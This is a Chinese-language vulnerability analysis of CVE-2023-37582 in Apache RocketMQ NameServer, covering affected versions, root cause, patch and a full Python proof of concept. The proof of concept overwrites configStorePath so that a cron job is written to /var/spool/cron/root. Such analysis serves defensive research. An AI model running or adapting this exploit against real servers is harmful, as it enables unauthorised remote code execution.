





- [CVE-2023-37582 Apache RocketMQ 远程代码执行漏洞](#cve-2023-37582-apache-rocketmq-远程代码执行漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [DefaultRequestProcessor#updateConfig](#defaultrequestprocessorupdateconfig)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2023-37582 Apache RocketMQ 远程代码执行漏洞
## 影响版本
Apache RocketMQ NameServer 5.0.0 ～ 5.1.1  
Apache RocketMQ NameServer 4.0.0 ～ 4.9.6
## 环境搭建
https://archive.apache.org/dist/rocketmq/5.1.0/rocketmq-all-5.1.0-bin-release.zip
## 原理分析
原理和CVE-2023-33246类似,这次是发生在NameServer上,也是在远程更新配置的时候,因为之前的漏洞导致Filter被删除了,所以无法直接执行命令,但可以通过覆盖原来配置中的配置文件路径,然后配置的内容也可控,这就可以任意文件写入的方式通过写计划任务的方式进行RCE.  
### DefaultRequestProcessor#updateConfig
当请求的code为318时就会进入updateConfig方法.  
   
处理过程也是类似的,将请求body中的字符串转为properties键值对象,然后就进入Configuration开始更新配置了.    
    
在update中的操作則是将传入的配置和已有的进行合并最后会调用persist()将配置写入到文件中.  
   
  
而关键就在于这个写入的文件路径也是从配置中的`configStorePath`属性得到的,所以可以对该属性进行修改导致任意文件写入.  
## 漏洞复现  
```python
import socket
import binascii
client = socket.socket()
client.connect(('192.168.18.25',9876))

# data
json = '{"code":318,"extFields":{"AccessKey":"RockedtMQ","topic":"%RETRY%please_rename_unique_group_name_5","Signature":"yK5YWMVD1a90Fb++YDrHV9n+JMs="},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
body='configStorePath=/var/spool/cron/root\nproductEnvName=123\\n*/1 * * * * echo 2 > /tmp/poc.txt'.encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')

# send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
print(data_recv)
```
## 补丁  
和CVE-2023-33246的类似,把控制配置文件路径的configStorePath加入黑名单,不允许远程修改.  
  
## 参考
https://xz.aliyun.com/t/12691